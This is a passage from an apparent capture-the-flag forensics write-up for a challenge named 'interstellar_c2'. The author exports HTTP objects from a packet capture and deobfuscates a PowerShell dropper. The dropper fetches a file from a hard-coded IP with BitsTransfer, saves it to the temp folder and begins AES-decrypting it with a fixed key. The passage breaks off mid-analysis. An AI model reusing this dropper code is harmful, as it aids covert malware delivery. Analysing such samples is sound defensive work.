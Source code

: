 Finding what's wrong also is not very hard, the very first request captured is downloading a Powershell dropper.

![Pasted_image_20230325161242.png](https://an00brektn.github.io/img/cyber-apocalypse-23/Pasted%20image%2020230325161242.png)

I can save all of the HTTP requests by doing `File > Export Objects > HTTP` and saving them to a folder called `artifacts/`. Looking at what I get, there's a lot of stuff here.

```shell
kali@transistor:~/ctf/cyber-apocalypse-2023/forensics/interstellar_c2/artifacts$ ls -la
total 7984
drwxr-xr-x 2 kali kali    4096 Mar 25 17:13  .
drwxr-xr-x 3 kali kali    4096 Mar 25 17:13  ..
-rw-r--r-- 1 kali kali  478360 Mar 25 17:13  %3fdVfhJmc2ciKvPOC
-rw-r--r-- 1 kali kali    1516 Mar 25 17:13 '%3fdVfhJmc2ciKvPOC(1)'
-rw-r--r-- 1 kali kali      11 Mar 25 17:13 '%3fdVfhJmc2ciKvPOC(10)'
-rw-r--r-- 1 kali kali      11 Mar 25 17:13 '%3fdVfhJmc2ciKvPOC(11)'
-rw-r--r-- 1 kali kali      42 Mar 25 17:13 '%3fdVfhJmc2ciKvPOC(12)'
-rw-r--r-- 1 kali kali     103 Mar 25 17:13 '%3fdVfhJmc2ciKvPOC(13)'
-rw-r--r-- 1 kali kali 6703168 Mar 25 17:13 '%3fdVfhJmc2ciKvPOC(14)'
-rw-r--r-- 1 kali kali    1516 Mar 25 17:13 '%3fdVfhJmc2ciKvPOC(15)'
-rw-r--r-- 1 kali kali      55 Mar 25 17:13 '%3fdVfhJmc2ciKvPOC(16)'
-rw-r--r-- 1 kali kali    2508 Mar 25 17:13 '%3fdVfhJmc2ciKvPOC(17)'
-rw-r--r-- 1 kali kali      42 Mar 25 17:13 '%3fdVfhJmc2ciKvPOC(18)'
-rw-r--r-- 1 kali kali      55 Mar 25 17:13 '%3fdVfhJmc2ciKvPOC(19)'
-rw-r--r-- 1 kali kali       3 Mar 25 17:13 '%3fdVfhJmc2ciKvPOC(2)'
-rw-r--r-- 1 kali kali      81 Mar 25 17:13 '%3fdVfhJmc2ciKvPOC(20)'
-rw-r--r-- 1 kali kali      55 Mar 25 17:13 '%3fdVfhJmc2ciKvPOC(21)'
-rw-r--r-- 1 kali kali      88 Mar 25 17:13 '%3fdVfhJmc2ciKvPOC(22)'
-rw-r--r-- 1 kali kali  846588 Mar 25 17:13 '%3fdVfhJmc2ciKvPOC(23)'
-rw-r--r-- 1 kali kali      42 Mar 25 17:13 '%3fdVfhJmc2ciKvPOC(24)'
-rw-r--r-- 1 kali kali       3 Mar 25 17:13 '%3fdVfhJmc2ciKvPOC(25)'
-rw-r--r-- 1 kali kali    1516 Mar 25 17:13 '%3fdVfhJmc2ciKvPOC(3)'
-rw-r--r-- 1 kali kali      81 Mar 25 17:13 '%3fdVfhJmc2ciKvPOC(4)'
-rw-r--r-- 1 kali kali    1580 Mar 25 17:13 '%3fdVfhJmc2ciKvPOC(5)'
-rw-r--r-- 1 kali kali      81 Mar 25 17:13 '%3fdVfhJmc2ciKvPOC(6)'
-rw-r--r-- 1 kali kali       3 Mar 25 17:13 '%3fdVfhJmc2ciKvPOC(7)'
-rw-r--r-- 1 kali kali       3 Mar 25 17:13 '%3fdVfhJmc2ciKvPOC(8)'
-rw-r--r-- 1 kali kali     103 Mar 25 17:13 '%3fdVfhJmc2ciKvPOC(9)'
-rw-r--r-- 1 kali kali   18960 Mar 25 17:13  94974f08-5853-41ab-938a-ae1bd86d8e51
-rw-r--r-- 1 kali kali   12632 Mar 25 17:13 'Anni%3fTheda=Merrilee%3fc'
-rw-r--r-- 1 kali kali    2035 Mar 25 17:13  vn84.ps1
```

We can start by reversing the PowerShell dropper. It's really not all too obfuscated- if I just separate things by putting them on new lines, we get the below code.

```powershell
.'Set-iTem' 'vAriAble:qLz0so'  ( [tYpe]'SySTEM.io.FilEmode') ;  
&'set-VariABLE' l60Yu3  ( [tYPe]'sYStem.SeCuRiTY.crypTOgRAphY.aeS');  
.'Set-VARiaBle'  BI34  (  [TyPE]'sySTEm.secURITY.CrYpTogrAPHY.CrypTOSTReAmmoDE');
${URl} = 'http://64.226.84.200/94974f08-5853-41ab-938a-ae1bd86d8e51'
${PTF} = "$env:temp\94974f08-5853-41ab-938a-ae1bd86d8e51"
.'Import-Module' 'BitsTransfer'
.'Start-BitsTransfer' -Source ${uRl} -Destination ${pTf}
${Fs} = &'New-Object' 'IO.FileStream'(${pTf},  ( &'chilDIteM'  'VAriablE:QLz0sO').VALue::"oP`eN")
${MS} = .'New-Object' 'System.IO.MemoryStream';
${aes} =   (GI  VARiaBLe:l60Yu3).VAluE::'Create'.Invoke()
${aEs}.KEYsIZE = 128
${KEY} = [byte[]] (0,1,1,0,0,1,1,0,0,1,1,0,1,1,0,0)
${iv} = [byte[]] (0,1,1,0,0,0,0,1,0,1,1,0,0,1,1,1)
${aES}.KEY = ${KEY}
${Aes}.iV = ${iV}
${cS} = .'New-Object' 'System.Security.Cryptography.CryptoStream'(${mS}, ${aEs}.CreateDecryptor.Invoke(),   (&'GeT-VARIaBLE'  bI34  -VaLue )::"W`RItE");
${fs}.CopyTo.Invoke(${Cs})
```